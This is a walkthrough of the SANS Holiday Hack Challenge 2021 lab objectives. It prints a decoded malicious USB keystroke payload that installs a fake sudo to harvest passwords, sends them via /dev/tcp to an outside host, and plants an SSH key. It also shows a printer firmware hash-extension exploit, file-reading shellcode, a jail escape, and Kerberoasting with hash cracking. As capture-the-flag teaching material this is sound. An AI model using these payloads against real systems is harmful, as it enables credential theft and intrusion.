# [KringleCon 4: Calling Birds](https://2021.kringlecon.com/)
*SANS Holiday Hack Challenge 2021*

The final narrative:

<blockquote>
Listen children to a story that was written in the cold
'Bout a Kringle and his castle hosting hackers, meek and bold
Then from somewhere came another, built his tower tall and proud
Surely he, our Frosty villain hides intentions 'neath a shroud
So begins Jack's reckless mission: gather trolls to win a war
Build a con that's fresh and shiny, has this yet been done before?
Is his Fest more feint than folly? Some have noticed subtle clues
Running 'round and raiding repos, stealing Santa's Don'ts and Do's
Misdirected, scheming, grasping, Frost intends to seize the day
Funding research with a gift shop, can Frost build the better sleigh?
Lo, we find unlikely allies: trolls within Jack's own command
Doubting Frost and searching motive, questioning his dark demand
Is our Jack just lost and rotten - one more outlaw stomping toes?
Why then must we piece together cludgy, wacky radios?
With this object from the heavens, Frost must know his cover's blown
Hearkening from distant planet! We the heroes should have known
Go ahead and hack your neighbor, go ahead and phish a friend
Do it in the name of holidays, you can justify it at year's end
There won't be any retweets praising you, come disclosure day
But on the snowy evening after? Still Kris Kringle rides the sleigh
</blockquote>

## Main Objectives

### 1. KringleCon Orientation
#### Difficulty
1/5

#### Description
Get your bearings at KringleCon

#### Solution
Talk to the elf on the side and follow the instructions to get a badge, WIFI adapter, and use a sample terminal.

### 2. Where in the World is Caramel Santaigo?
#### Difficulty
1/5

#### Description
Help Tangle Coalbox find a wayward elf in Santa's courtyard. Talk to Piney Sappington nearby for hints.

#### Solution
This is an OSINT challenge. Use the clues provided at each stage to determine where to investigate next. Make sure to use the Interrink system to look up possible elves, which will help you guess the elf at the end.

### 3. Thaw Frost Tower's Entrance
#### Difficulty
2/5

#### Description
Turn up the heat to defrost the entrance to Frost Tower. Click on the Items tab in your badge to find a link to the Wifi Dongle's CLI interface. Talk to Greasy Gopherguts outside the tower for tips.

#### Solution
Once next to Grimy McTrolkins, start up the WiFi dongle CLI using the item picked up in objective 1. Run the `iwlist` command to see the name of the network:

```shell
elf@79b89c516e1b:~$ iwlist scan
wlan0     Scan completed :
          Cell 01 - Address: 02:4A:46:68:69:21
                    Frequency:5.2 GHz (Channel 40)
                    Quality=48/70  Signal level=-62 dBm  
                    Encryption key:off
                    Bit Rates:400 Mb/s
                    ESSID:"FROST-Nidus-Setup"
```

Use the `iwconfig` command to connect to the network:

```shell
elf@79b89c516e1b:~$ iwconfig wlan0 essid "FROST-Nidus-Setup"
** New network connection to Nidus Thermostat detected! Visit http://nidus-setup:8080/ to complete setup
(The setup is compatible with the 'curl' utility)
```

Do as it says and use `curl` to complete the setup:

```shell
elf@79b89c516e1b:~$ curl http://nidus-setup:8080/
◈──────────────────────────────────────────────────────────────────────────────◈

Nidus Thermostat Setup

◈──────────────────────────────────────────────────────────────────────────────◈

WARNING Your Nidus Thermostat is not currently configured! Access to this
device is restricted until you register your thermostat » /register. Once you
have completed registration, the device will be fully activated.

In the meantime, Due to North Pole Health and Safety regulations
42 N.P.H.S 2600(h)(0) - frostbite protection, you may adjust the temperature.

API

The API for your Nidus Thermostat is located at http://nidus-setup:8080/apidoc
```

While the thermostat isn't configured, it actually doesn't matter due to North Pole Health and Safety regulations, meaning we can bypass the registration and look for the appropriate endpoint with the docs:

```shell
elf@79b89c516e1b:~$ curl http://nidus-setup:8080/apidoc
◈──────────────────────────────────────────────────────────────────────────────◈

Nidus Thermostat API

◈──────────────────────────────────────────────────────────────────────────────◈

The API endpoints are accessed via:

http://nidus-setup:8080/api/<endpoint>

Utilize a GET request to query information; for example, you can check the
temperatures set on your cooler with:

curl -XGET http://nidus-setup:8080/api/cooler

Utilize a POST request with a JSON payload to configuration information; for
example, you can change the temperature on your cooler using:

curl -XPOST -H 'Content-Type: application/json' \
  --data-binary '{"temperature": -40}' \
  http://nidus-setup:8080/api/cooler


● WARNING: DO NOT SET THE TEMPERATURE ABOVE 0! That might melt important furniture

Available endpoints

┌─────────────────────────────┬────────────────────────────────┐
│ Path                        │ Available without registering? │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/cooler                 │ Yes                            │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/hot-ice-tank           │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/snow-shower            │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/melted-ice-maker       │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/frozen-cocoa-dispenser │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/toilet-seat-cooler     │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/server-room-warmer     │ No                             │ 
└─────────────────────────────┴────────────────────────────────┘
```

The first endpoint is available without registration so try that first. In the previous output, it shows an example of using this endpoint and even a warning of what happens if we use a certain value (i.e., one that will thaw the ice):

```shell
elf@79b89c516e1b:~$ curl -XPOST -H 'Content-Type: application/json' \
  --data-binary '{"temperature": 1}' \
  http://nidus-setup:8080/api/cooler
{
  "temperature": 0.7,
  "humidity": 74.16,
  "wind": 7.06,
  "windchill": -1.61,
  "WARNING": "ICE MELT DETECTED!"
}
```

### 4. Slot Machine Investigation
#### Difficulty
2/5

#### Description
Test the security of Jack Frost's [slot machines](https://slots.jackfrosttower.com/). What does the Jack Frost Tower casino security team threaten to do when your coin total exceeds 1000? Submit the string in the server data.response element. Talk to Noel Boetie outside Santa's Castle for help.

#### Solution
Open up the slot machines in Firefox and spin once with the Network tab in developer tools opened. Click on the POST request that is issued on a spin and select "Edit and resend". Scroll down to look at what is being sent in the request as it is vulnerable to parameter tampering. See what happens when you try other values of the `betamount`, `numline`, and `cpl` parameters. Both `betamount` and `numline` have validation on them, but `cpl` doesn't. If you play around with this and the responses you get back, you will notice that this affects the amount your credits are changed by, so making it negative means losses are wins and if you make it a high enough number, you will exceed the mentioned threshold. Then, it's simply a matter of looking at the response to find the phrase needed to complete the objective.

### 5. Strange USB Device
#### Difficulty
2/5

#### Description
Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.

#### Solution
Use the provided file in the current directory to analyze the binary that's on the USB, keeping in mind the hint about SSH keys:

```shell                              
elf@64d27a2270ff:~$ ./mallard.py -f /mnt/USBDEVICE/inject.bin                                  
ENTER                                                                                          
DELAY 1000                                                                                     
GUI SPACE                                                                                      
DELAY 500                                                                                      
STRING terminal                                                                                
ENTER                                                                                          
DELAY 500
GUI -
GUI -
GUI -
GUI -
GUI -
STRING  /bin/bash
ENTER
DELAY 500
STRING mkdir -p ~/.config/sudo
ENTER
DELAY 200
STRING echo '#!/bin/bash > ~/.config/sudo/sudo
ENTER
STRING /usr/bin/sudo $@ 
ENTER
STRING echo -n "[sudo] password for $USER: "
ENTER
STRING read -s pwd
ENTER
STRING echo
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
ENTER
STRING if [ $? -eq 1 ]
ENTER
STRING then
ENTER
STRING echo "$USER:$pwd:invalid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "Sorry, try again."
ENTER
STRING sudo $@
ENTER
STRING else
ENTER
STRING echo "$USER:$pwd:valid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S $@
ENTER
STRING fi
ENTER
STRING fi' > ~/.config/sudo/sudo
ENTER
DELAY 200
STRING chmod u+x ~/.config/sudo/sudo
ENTER
DELAY 200
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bash_profile
ENTER
DELAY 200
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
```

Take a look at the command that looks like it contains a reversed SSH key and is decoding base64:
```shell
elf@64d27a2270ff:~$ echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d
echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```

Bingo - it's ickymcgoop!

### 6. Shellcode Primer
#### Difficulty
3/5

#### Description
Complete the [Shellcode Primer](https://tracer.kringlecastle.com/) in Jack's office. According to the last challenge, what is the secret to KringleCon success? "All of our speakers and organizers, providing the gift of ____, free to the community." Talk to Chimney Scissorsticks in the NetWars area for hints.

#### Solution

The first 10 are warmup exercises to get exposure to writing shell code &ndash; keep this [reference](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) open. In the 11th, you have to figure it all out on your own:

```
; Get a reference to the string
call getfile
db '/var/northpolesecrets.txt',0
getfile:
pop rdi

; Call sys_open
mov rax,2
mov rsi,0
mov rdx,0

syscall

; Call sys_read on the file handle and read it into rsp
mov rdi,rax
mov rsi,rsp
mov rax,0
mov rdx,150
syscall

; Call sys_write to write the contents from rsp to stdout (1)
mov rax,1
mov rdi,1
mov rsi,rsp
mov rdx,150
syscall

; Call sys_exit
mov rax,60
mov rdi,0
syscall
```

After completing this, you see what we were after:
>"Secret to KringleCon success: all of our speakers and organizers, providing the gift of cyber security knowledge, free to the community."

...and apparently we could have cheated by putting `?cheat` in the URL, which yields the official solution:

```
; TODO: Get a reference to this
call bottom
db '/var/northpolesecrets.txt',0
bottom:

; TODO: Call sys_open
mov rax, 2 ; syscall (sys_open)
pop rdi ; filename
mov rsi, 0
mov rdx, 0
syscall

; TODO: Call sys_read on the file handle and read it into rsp
mov rdi, rax ; handle
mov rax, 0 ; syscall (sys_read)
mov rsi, rsp ; buffer
mov rdx, 138 ; length
syscall

; TODO: Call sys_write to write the contents from rsp to stdout (1)
mov rdx, rax ; length
mov rax, 1 ; syscall (sys_read)
mov rdi, 1 ; handle (stdout)
mov rsi, rsp ; buffer
syscall

; TODO: Call sys_exit
mov rax, 60
mov rdi, 0
syscall
```

### 7. Printer Exploitation
#### Difficulty
4/5

#### Description
Investigate the stolen [Kringle Castle printer](https://printer.kringlecastle.com/). Get shell access to read the contents of `/var/spool/printer.log`. What is the name of the last file printed (with a `.xlsx` extension)? Find Ruby Cyster in Jack's office for help with this objective.

#### Solution

The hints from Ruby Cyster point toward using a [hash extension attack](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) on the firmware updating functionality that the printer exposes in the web interface. If you download the current firmware from the [Kringle Castle printer](https://printer.kringlecastle.com/), it looks like this:

```
{
  "firmware":"UEsD...AAA==",
  "signature":"2bab...dc97",
  "secret_length":16,
  "algorithm":"SHA256"
}
```

According to the hash extension article that Ruby provides, "An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data." This matches what we have, and Ruby told us that if we provide multiple files of the same type, only the last will be executed, so we want to append something.

First, we need to figure out what kind of file we need. Pass the `firmware` through a base64 decoder and look at the file type (this can be done in CyberChef). It's a PKZIP. Note that you will need to save this as a `firmware.zip` to add to it later.

Create a bash script with the exploit &ndash; there are options for this, but let's try to take advantage of the "Dropping Files" hint:

>Files placed in `/app/lib/public/incoming` will be accessible under https://printer.kringlecastle.com/incoming/.

```shell
#!/bin/bash
cp /var/spool/printer.log /app/lib/public/incoming/<dont_make_it_easy_for_others_to_find>.log
```

Make it executable and save it as the same name as the firmware that's inside the zip (not sure if this is necessary):

```shell
chmod +x firmware.bin
```

Add this file to a new zip:

```shell
zip new.zip firmware.bin
```

Using the `hash_extender` tool (install by [cloning](https://github.com/iagox86/hash_extender) and running make &ndash; **much** easier on Linux), create the new signature and data:

```shell
./hash_extender --file firmware.zip --secret 16 --signature 2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97 --format sha256 --append `cat test.zip | xxd -ps -c 9999999999` --append-format hex --out-data-format hex
```

Using Cyberchef, take the data as hex and pass it through the recipe "From Hex" to "To Base64" and use that as the `firmware` in the JSON. Make sure to also update the signature. Once you upload the new JSON file, it will run the exploit in the background, so you can navigate to `https://printer.kringlecastle.com/incoming/<dont_make_it_easy_for_others_to_find>.log` and view the file in question:

```
Documents queued for printing
=============================

Biggering.pdf
Size Chart from https://clothing.north.pole/shop/items/TheBigMansCoat.pdf
LowEarthOrbitFreqUsage.txt
Best Winter Songs Ever List.doc
Win People and Influence Friends.pdf
Q4 Game Floor Earnings.xlsx
Fwd: Fwd: [EXTERNAL] Re: Fwd: [EXTERNAL] LOLLLL!!!.eml
Troll_Pay_Chart.xlsx
```

The last entry completes the objective.

### 8. Kerberoasting on an Open Fire
#### Difficulty
5/5

#### Description
Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the [ElfU Portal](https://register.elfu.org/). Find Eve Snowshoes in Santa's office for hints.

#### Solution

Signing up at ElfU gives you credentials for SSH access into the grading machine. These credentials don't last long though, so they may vary in this walkthrough as the challenge was completed over multiple days.



```shell
===================================================
=      Elf University Student Grades Portal       =
=          (Reverts Everyday 12am EST)            =
===================================================
1. Print Current Courses/Grades.
e. Exit
:
```

Entering `1`:
```shell
0  Shortname                    Description  Grade
==================================================
1    PRDL301     Present Delivery Logistics     C
2    NPAR301    North Pole Art Appreciation     D+
3    CACH101                Candy Chemistry     F
4    NNLM201  Naughty Nice List Mathematics     D+
5    SLPE101  Sleigh Propulsion Engineering     B-
Press Enter to continue...
```

Entering `e` closes the connection, but `control + D` cause an error that drops us in a Python process:

```shell
===================================================
=      Elf University Student Grades Portal       =
=          (Reverts Everyday 12am EST)            =
===================================================
1. Print Current Courses/Grades.
e. Exit
: Traceback (most recent call last):
  File "/opt/grading_system", line 41, in <module>
    main()
  File "/opt/grading_system", line 26, in main
    a = input(": ").lower().strip()
EOFError
>>>
```

From here, we can launch an interactive bash shell:
```shell
>>> os.system('bash')
pqsgdggdkl@grades:~$ pwd
/home/pqsgdggdkl
pqsgdggdkl@grades:~$ whoami
pqsgdggdkl
```

Before moving on, change the login shell to make it possible to `scp` files:
```shell
pqsgdggdkl@grades:~$ chsh -s /bin/bash
```

We need to find other machines to pivot, but check for network information:

```shell
pqsgdggdkl@grades:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 19146062  bytes 4411015525 (4.4 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 21066068  bytes 2343080962 (2.3 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 511177  bytes 38986416 (38.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 511177  bytes 38986416 (38.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

As hinted by the elf, we need to find a domain controller in the 10.0.0.0/8 network. First, take a look at the routing tables as mentioned in the hint:

```shell
pqsgdggdkl@grades:~$ netstat -rn
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
0.0.0.0         172.17.0.1      0.0.0.0         UG        0 0          0 eth0
10.128.1.0      172.17.0.1      255.255.255.0   UG        0 0          0 eth0
10.128.2.0      172.17.0.1      255.255.255.0   UG        0 0          0 eth0
10.128.3.0      172.17.0.1      255.255.255.0   UG        0 0          0 eth0
172.17.0.0      0.0.0.0         255.255.0.0     U         0 0          0 eth0
```

There are 3 such IP addresses. The hint also mentions a change to the `nmap` command in order to allow for default probing on an unprivileged scan. We are looking for port 389 (LDAP) being open:

```shell
pqsgdggdkl@grades:~$ nmap -p389 -PS22,445 --open 10.128.1.0/24 10.128.2.0/24 10.128.3.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-23 18:46 UTC
Nmap scan report for hhc21-windows-dc.c.holidayhack2021.internal (10.128.1.53)
Host is up (0.00045s latency).

PORT    STATE SERVICE
389/tcp open  ldap

Nmap scan report for 10.128.3.30
Host is up (0.00057s latency).

PORT    STATE SERVICE
389/tcp open  ldap

Nmap done: 768 IP addresses (238 hosts up) scanned in 23.29 seconds
```

This leaves two possible domain controllers to inspect. Let's get more information on each:
```shell
pqsgdggdkl@grades:~$ nmap -PS22,445 --open 10.128.1.53
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-23 18:50 UTC
Nmap scan report for hhc21-windows-dc.c.holidayhack2021.internal (10.128.1.53)
Host is up (0.00032s latency).
Not shown: 988 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 4.45 seconds
pqsgdggdkl@grades:~$ nmap -PS22,445 --open 10.128.3.30
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-23 18:50 UTC
Nmap scan report for 10.128.3.30
Host is up (0.00020s latency).
Not shown: 966 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
636/tcp  open  ldapssl
1024/tcp open  kdm
1025/tcp open  NFS-or-IIS
1026/tcp open  LSA-or-nterm
1027/tcp open  IIS
1028/tcp open  unknown
1029/tcp open  ms-lsa
1030/tcp open  iad1
1031/tcp open  iad2
1032/tcp open  iad3
1033/tcp open  netinfo
1034/tcp open  zincite-a
1035/tcp open  multidropper
1036/tcp open  nsstp
1037/tcp open  ams
1038/tcp open  mtqp
1039/tcp open  sbl
1040/tcp open  netsaint
1041/tcp open  danf-ak2
1042/tcp open  afrog
1043/tcp open  boinc
1044/tcp open  dcutility
2222/tcp open  EtherNetIP-1
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
```

We need to connect to the domain controller, but to do so, we need to do Kerberoasting. The necessary scripts are provided at `/usr/local/bin`; however, they need a domain. Another `nmap` can give us the domain of `elfu.local0`:
```shell
pqsgdggdkl@grades:~$ nmap -PS22,445 -v -sV 10.128.1.53
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-23 20:21 UTC
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 20:21
Scanning 10.128.1.53 [2 ports]
Completed Ping Scan at 20:21, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:21
Completed Parallel DNS resolution of 1 host. at 20:21, 0.01s elapsed
Initiating Connect Scan at 20:21
Scanning hhc21-windows-dc.c.holidayhack2021.internal (10.128.1.53) [1000 ports]
Discovered open port 135/tcp on 10.128.1.53
Discovered open port 445/tcp on 10.128.1.53
Discovered open port 3389/tcp on 10.128.1.53
Discovered open port 53/tcp on 10.128.1.53
Discovered open port 139/tcp on 10.128.1.53
Discovered open port 389/tcp on 10.128.1.53
Discovered open port 3268/tcp on 10.128.1.53
Discovered open port 464/tcp on 10.128.1.53
Discovered open port 636/tcp on 10.128.1.53
Discovered open port 593/tcp on 10.128.1.53
Discovered open port 3269/tcp on 10.128.1.53
Discovered open port 88/tcp on 10.128.1.53
Completed Connect Scan at 20:21, 4.01s elapsed (1000 total ports)
Initiating Service scan at 20:21
Scanning 12 services on hhc21-windows-dc.c.holidayhack2021.internal (10.128.1.53)
Stats: 0:01:17 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 91.67% done; ETC: 20:22 (0:00:07 remaining)
Completed Service scan at 20:23, 141.14s elapsed (12 services on 1 host)
NSE: Script scanning 10.128.1.53.
Initiating NSE at 20:23
Completed NSE at 20:23, 0.05s elapsed
Initiating NSE at 20:23
Completed NSE at 20:23, 1.01s elapsed
Nmap scan report for hhc21-windows-dc.c.holidayhack2021.internal (10.128.1.53)
Host is up (0.00068s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-23 20:21:43Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: elfu.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: elfu.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=12/23%Time=61C4DA5C%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 146.63 seconds
```

With this, we can run the `GetUserSPNs.py` script using the command from [this](https://github.com/chrisjd20/hhc21_powershell_snippets) resource provided in the hints from the elf. Note that we use `elfu.local` for the domain (drop the `0.` at the end):
```shell
pqsgdggdkl@grades:~$ python3 /usr/local/bin/GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 'elfu.local/$USER:<password>' -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName                 Name      MemberOf  PasswordLastSet             LastLogon                   Delegation
-----------------------------------  --------  --------  --------------------------  --------------------------  ----------
ldap/elfu_svc/elfu                   elfu_svc            2021-10-29 19:25:04.305279  2021-12-23 20:17:40.164817
ldap/elfu_svc/elfu.local             elfu_svc            2021-10-29 19:25:04.305279  2021-12-23 20:17:40.164817
ldap/elfu_svc.elfu.local/elfu        elfu_svc            2021-10-29 19:25:04.305279  2021-12-23 20:17:40.164817
ldap/elfu_svc.elfu.local/elfu.local  elfu_svc            2021-10-29 19:25:04.305279  2021-12-23 20:17:40.164817
```

This gives us the Kerberos ticket for the `elfu_svc` account:
```shell
pqsgdggdkl@grades:~$ cat spns.txt
$krb5tgs$23$*elfu_svc$ELFU.LOCAL$elfu.local/elfu_svc*$526de65fc68161292fd4dedf08ba21b7$83952e687024a42333658192781e9c44c1de2b61f4cf92eb6201143c65611906fdfd941cf318a1d7c6a4c3e0b7303f7a4d8d414222edf1e4e19a16d21e9d97556d4964eaa06f9dc9d16d890bd4a16531853b70fc1c2b3d19804bfe2572f528c5ff7d29ecc41a23ad9647cbd905bca79a60e27f4af03f998bd43c742dfb3e527bcec3061d85b446894cd9a99e7eb21e8497ca751ae1c833b4b4511f699e0a1700ecb8e6b905d4fd1de00b7232126dba01f87d98a60d24fb0a451c4f9f01ae30e8ce9062522c84d01bbe222afaa5f9feecc95310507772c5080db0699c9b5d5420937c63b7c309d31804e705b56e4d70d437a635797e14bbf74174eafc6a94b1debdfba0fb9be235a03ef9862b189aefc02a5d71bb3164be20ee81df45421a9c98c93ec0dd14fa7b3198108548721a572fffa0892ddeacad6d3974f88d012e4959c207f2bd29ef369fc42d3daf48bb1027711d1b68180bf351bebf09f6ef55a248c83b01972cf8dc8aa55132545522ab68cfdd948c4ac92c94c4a974405948d01f3ad80b4122f64799e26d0ea4a217968284095bfa301a8e79018fc22743e97f0e987414e626cf4f2629d51f81e42bb97435c126a28f24fa9baf866fd8ba061c26c8d1d839cb652d89a9716424c776098532bd8febc9549fa231ba8a0fa542b4ebd29b4b54d2e8f0880ab9c03684d1d338a726e5f6e7d0a17b04549910d552016dce363319f48bd8d3222d32a7e79eadbb7dd9a80084d894aa021ef3e3e66d16ac21946056332109773eadf72e806f1a0c694fa09988871fea2b99c4795504e4634f9ca05b550604b53edd2428aa1e162b8a657c4b6e4f37a71ca5fbf41ea4ec3894ff2f02f16e24323faf1fc9a87d08d75ba2245c7755839ab716b99392dd39cfb8369f6a483a34f9273ab42e3c72526a1605456c63e39a0c3c66655ee2404b096aa1c355a6e35192899a1b80802ca75c41147809f002bc99ff01764011689a5ca835a8dd35011967c44dd3cafb0b3d1a31faf6f688cec3badbfa362bb316d4769a14f91d411b0f2648debe86e2ce809bc1a8abafb82d32cba7688a19e0377a057fc4338ceec6dc5b59e3bf6dc25e9872124127ec8040d29712d2f60807cc3647d70baa9a222d183b99b546910945211a6fd9c3634e969ea1bd2f7b3ee8079fa949c04e0884cb3de97654761692208496278019df63a1a259675a3f90b2c61e1ece68bf31bf10e9209ce251ec4f20c392728ec2ec836881585c0aa6cdc5ef4e7f956736ebcd1d7cf723e1bbf4b0c20af4d1271dfff3c7d3939e8c0c0deaacc751e85f04535dc70f5741e089d6fab1159f62d1af1a4fdc8303de902700ffc7615c570f3545daa7b9e8cfca9c49ad8c0d2a6edae961ed579715ca3b70fb7eb5b0e93d39227664dd6537536655aef237479e9c333790009b224c94d637b56c745ceac62c53e33d
```

The tool [CeWL](https://github.com/digininja/CeWL) is mentioned as a way to build word lists for cracking passwords, but the elf hints that it ignores numbers by default. To use this tool, we would need to pass it a URL to look through. Right now, we only know about the [registration website](https://register.elfu.org/register#!). If we take a look at the source code of the page, we see an interesting comment:

```html
<!-- Remember the groups battling to win the karaoke contest earleir this year? I think they were rocks4socks, cookiepella, asnow2021, 
v0calprezents, Hexatonics, and reindeers4fears. Wow, good times! -->
```

Add those to a file (`elfu_words.txt`) here and grab the [rule list](https://github.com/NotSoSecure/password_cracking_rules) that the elf mentions as well (save as `rules.rule`). Now, we can crack the password with `hashcat`:

```shell
$ hashcat -m 13100 -a 0 spns.txt --potfile-disable -r rules.rule --force -O -w 4 --opencl-device-types 1,2 elfu_words.txt

